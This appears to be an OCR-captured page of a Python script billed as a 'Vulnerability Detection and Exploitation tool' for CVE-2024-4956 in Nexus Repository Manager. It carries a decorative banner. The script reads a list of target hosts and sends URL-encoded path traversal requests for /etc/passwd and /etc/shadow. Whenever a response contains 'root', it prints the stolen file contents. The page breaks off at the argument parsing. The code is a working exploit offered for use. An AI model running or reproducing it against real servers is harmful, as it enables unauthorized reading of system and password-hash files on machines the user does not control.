       
    def banner():  
        banner = f"""{bold}{random_color}  
      ______     _______   ____   ___ ____  _  _     _  _   ___  ____   __     
     / ___\ \   / / ____| |___ \ / _ \___ \| || |   | || | / _ \| ___| / /_    
    | |    \ \ / /|  _|     __) | | | |__) | || |_  | || || (_) |___ \| '_ \   
    | |___  \ V / | |___   / __/| |_| / __/|__   _| |__   _\__, |___) | (_) |  
     \____|  \_/  |_____| |_____|\___/_____|  |_|      |_|   /_/|____/ \___/   
                                                                               
    __     __                _                      _____         _       
    \ \   / /__ _ __ _   _  | |    __ _ _____   _  |_   _|__  ___| |__    
     \ \ / / _ \ '__| | | | | |   / _` |_  / | | |   | |/ _ \/ __| '_ \   
      \ V /  __/ |  | |_| | | |__| (_| |/ /| |_| |   | |  __/ (__| | | |  
       \_/ \___|_|   \__, | |_____\__,_/___|\__, |   |_|\___|\___|_| |_|  
                     |___/                  |___/                         
                                                                                           
                        {bold}{white}@VeryLazyTech - Medium {reset}\n"""  
                          
        return banner  
      
      
    def read_ip_port_list(file_path):  
        with open(file_path, 'r') as file:  
            lines = file.readlines()  
        return [line.strip() for line in lines]  
      
      
    def make_request(ip_port, url_path):  
        url = f"http://{ip_port}/{url_path}"  
        try:  
            response = requests.get(url, timeout=5)   
            return response.text  
        except requests.RequestException as e:  
            return None  
      
      
    def main(ip_port_list):  
        for ip_port in ip_port_list:  
            for url_path in ["%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F../etc/passwd", "%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F../etc/shadow"]:  
                response_text = make_request(ip_port, url_path)  
                if response_text and "nexus:x:200:200:Nexus Repository Manager user:/opt/sonatype/nexus:/bin/false" not in response_text and "Not Found" not in response_text and "400 Bad Request" not in response_text and "root" in response_text:  
                    print(f"Address: {ip_port}")  
                    print(f"File Contents for passwd:\n{response_text}" if "passwd" in url_path else f"File Contents for shadow:\n{response_text}")  
                    break  
      
      
    if __name__ == "__main__":  
        parser = argparse.ArgumentParser(description=f"[{bold}{blue}Description{reset}]: {bold}{white}Vulnerability Detection and Exploitation tool for CVE-2024-4956", usage=argparse.SUPPRESS)  
        group = parser.add_mutually_exclusive_group(required=True)  
        group.add_argument("-u", "--url", type=str, help=f"[{bold}{blue}INF{reset}]: {bold}{white}Specify a URL or IP with port for vulnerability detection\n")  
        group.add_argument("-l", "--list", type=str, help=f"[{bold}{blue}INF{reset}]: {bold}{white}Specify a list of URLs or IPs for vulnerability detection\n")  
        args = parser.parse_args()  
          